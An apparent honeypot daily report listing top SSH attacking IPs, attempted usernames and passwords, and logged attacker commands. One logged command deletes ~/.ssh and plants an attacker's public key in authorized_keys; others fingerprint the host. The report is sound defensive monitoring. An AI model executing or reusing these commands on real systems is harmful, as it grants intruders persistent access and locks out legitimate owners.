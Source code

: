 # ZOE - The daily report for the malicious behavior

> daily report for the malicious user behavior

This is the daily report for the malicious user behavior. It is generated by the ZOE system.

## SSH

The following table shows the top 10 malicious SSH users that have been detected by the ZOE
system. The table is sorted by the number of attempts.

### Top 10 malicious users

| Client IP | Count    |
|-----------|----------|
| 47.94.139.51 | 4498 |
| 47.74.213.140 | 4224 |
| 39.108.36.206 | 3887 |
| 121.43.189.23 | 3777 |
| 60.205.56.230 | 1480 |
| 47.243.116.26 | 508 |
| 157.245.215.150 | 493 |
| 170.64.217.119 | 396 |
| 101.36.119.124 | 159 |
| 182.92.129.250 | 159 |

### Top 10 malicious try to login as

| Usernames | Count    |
|-----------|----------|
| root | 2588 |
| ubuntu | 31 |
| user | 30 |
| admin | 29 |
| postgres | 18 |
| test | 13 |
| git | 12 |
| ftpuser | 9 |
| near | 9 |
| usuario2 | 9 |

### Top 10 malicious try to authenticate with

| Password | Count    |
|-----------|----------|
| 123456 | 182 |
| 123456Dd | 132 |
| 1234 | 23 |
| P@ssw0rd | 16 |
| root | 15 |
| password | 14 |
| 12345678 | 12 |
| sebastian123 | 11 |
| near | 9 |
| adminadmin | 9 |

### Top malicious commands try to execute

| Client | Command |
|--------|---------|
| 101.36.119.124 | uname -s -m |
| 103.234.151.178 | cd ~; chattr -ia .ssh; lockr -ia .ssh |
| 103.234.151.178 | cd ~ && rm -rf .ssh && mkdir .ssh && echo "ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAQEArDp4cun2lhr4KUhBGE7VvAcwdli2a8dbnrTOrbMz1+5O73fcBOx8NVbUT0bUanUV9tJ2/9p7+vD0EpZ3Tz/+0kX34uAx1RV/75GVOmNx+9EuWOnvNoaJe0QXxziIg9eLBHpgLMuakb5+BgTFB+rKJAw9u9FSTDengvS8hX1kNFS4Mjux0hJOK8rvcEmPecjdySYMb66nylAKGwCEE6WEQHmd1mUPgHwGQ0hWCwsQk13yCGPK5w6hYp5zYkFnvlC8hGmd4Ww+u97k6pfTGTUbJk14ujvcD9iUKQTTWYYjIIu5PmUux5bsZ0R4WFwdIe6+i6rBLAsPKgAySVKPRK+oRw== mdrfckr">>.ssh/authorized_keys && chmod -R go= ~/.ssh && cd ~ |
| 103.234.151.178 | cat /proc/cpuinfo \| grep name \| wc -l |
| 186.10.125.209 | cd ~; chattr -ia .ssh; lockr -ia .ssh |
| 186.10.125.209 | cd ~ && rm -rf .ssh && mkdir .ssh && echo "ssh-rsa AAAAB3NzaC1yc2EAAAABJQAAAQEArDp4cun2lhr4KUhBGE7VvAcwdli2a8dbnrTOrbMz1+5O73fcBOx8NVbUT0bUanUV9tJ2/9p7+vD0EpZ3Tz/+0kX34uAx1RV/75GVOmNx+9EuWOnvNoaJe0QXxziIg9eLBHpgLMuakb5+BgTFB+rKJAw9u9FSTDengvS8hX1kNFS4Mjux0hJOK8rvcEmPecjdySYMb66nylAKGwCEE6WEQHmd1mUPgHwGQ0hWCwsQk13yCGPK5w6hYp5zYkFnvlC8hGmd4Ww+u97k6pfTGTUbJk14ujvcD9iUKQTTWYYjIIu5PmUux5bsZ0R4WFwdIe6+i6rBLAsPKgAySVKPRK+oRw== mdrfckr">>.ssh/authorized_keys && chmod -R go= ~/.ssh && cd ~ |
| 186.10.125.209 | cat /proc/cpuinfo \| grep name \| wc -l |
| 182.92.237.4 | uname -s -m |
| 182.92.129.250 | uname -s -m |
| 182.92.210.172 | uname -s -m |
